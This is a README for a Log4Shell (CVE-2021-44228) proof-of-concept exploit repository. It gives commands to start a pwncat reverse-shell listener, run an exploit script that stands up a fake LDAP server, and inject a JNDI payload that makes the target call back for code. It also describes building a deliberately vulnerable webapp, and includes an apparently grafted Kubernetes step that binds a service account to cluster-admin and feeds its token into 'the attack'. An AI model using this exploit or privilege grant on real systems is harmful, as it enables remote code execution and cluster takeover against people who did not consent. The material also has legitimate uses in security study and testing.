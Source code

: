 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

Proof-of-concept (POC)
----------------------

As a PoC there is a python file that automates the process.

#### Requirements:
```bash
pip install -r requirements.txt
```

#### Usage:


* Start a pwncat listener to accept reverse shell connection.<br>
```py
pwncat -lp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport <port from servio net> --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Vulnerable application
--------------------------

There is a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
docker build -t log4j-shell-poc .
```

### Deployment to Kubernetes

```bash
kubectl apply -f depl.yaml
kubectl apply -f service.yaml
```

### Permission configuration
```bash
kubectl create serviceaccount admin-user
kubectl create clusterrolebinding admin-user-cluster-admin --clusterrole=cluster-admin --serviceaccount=default:admin-user
kubectl create token admin-user
```

Copy the generated token to the `serivce.yaml` to configre the token used in the attack


<br>

Getting the Java version.
--------------------------------------

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

